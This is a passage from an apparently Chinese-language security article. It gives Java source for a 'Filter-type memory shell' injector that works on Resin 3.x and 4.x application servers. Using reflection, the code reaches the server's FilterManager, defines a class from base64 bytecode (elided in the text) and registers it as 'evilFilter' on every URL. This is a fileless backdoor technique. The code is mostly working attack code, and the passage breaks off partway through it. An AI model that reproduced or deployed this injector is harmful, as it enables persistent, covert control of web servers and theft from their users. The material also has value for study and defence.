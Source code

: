 resin 4.x 内存马的相关实现步骤与3.x没有太大的区别，这里直接给出已适配 resin  3.x & 4.x 的Filter型内存马

```java
/**
 * Tested version：
 *      resin3.1.16
 *      resin4.0.65
 *
 */
public class ResinFilterInject extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String filterName = "evilFilter";
            String urlPatternX = "/*";
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            // com.caucho.server.dispatch.ServletInvocation.getContextRequest
            Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
            Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
            // com.caucho.server.connection.AbstractHttpRequest.getWebApp
            WebApp webApp = (WebApp) currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
            // com.caucho.server.webapp.WebApp._filterManager
            Field _filterManager = null;
            try {
                _filterManager = webApp.getClass().getDeclaredField("_filterManager");
            }catch (Exception e){
                _filterManager = webApp.getClass().getSuperclass().getDeclaredField("_filterManager");
            }
            _filterManager.setAccessible(true);
            FilterManager filterManager = (FilterManager) _filterManager.get(webApp);
            // com.caucho.server.dispatch.FilterManager._filters
            Field _filtersF = filterManager.getClass().getDeclaredField("_filters");
            _filtersF.setAccessible(true);
            Map _filters = null;
            try{
                // resin3.1.16: Hashtable<String, FilterConfigImpl> _filters = new Hashtable();
                _filters  = (Hashtable<String, FilterConfigImpl>) _filtersF.get(filterManager);
            }catch (Exception e){
                // resin4.0.65: HashMap<String, FilterConfigImpl> _filters = new HashMap();
                _filters = (HashMap<String, FilterConfigImpl>) _filtersF.get(filterManager);
            }
            // prevent multiple injection
            if(!_filters.containsKey(filterName)){
                Class evilClazz = null;
                try {
                    evilClazz = classLoader.loadClass("com.example.general.FilterShell");
                } catch (ClassNotFoundException e) {
                    BASE64Decoder b64Decoder = new sun.misc.BASE64Decoder();
                    byte[] evilFilterBytes = b64Decoder.decodeBuffer("yv66vg......");
                    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                    defineClass.setAccessible(true);
                    evilClazz = (Class) defineClass.invoke(classLoader, evilFilterBytes, 0, evilFilterBytes.length);
                }
                FilterMapping filterMapping = new FilterMapping();
                filterMapping.setFilterClass(evilClazz.getName());
                filterMapping.setFilterName(filterName);
                FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
                urlPattern.addText(urlPatternX);
```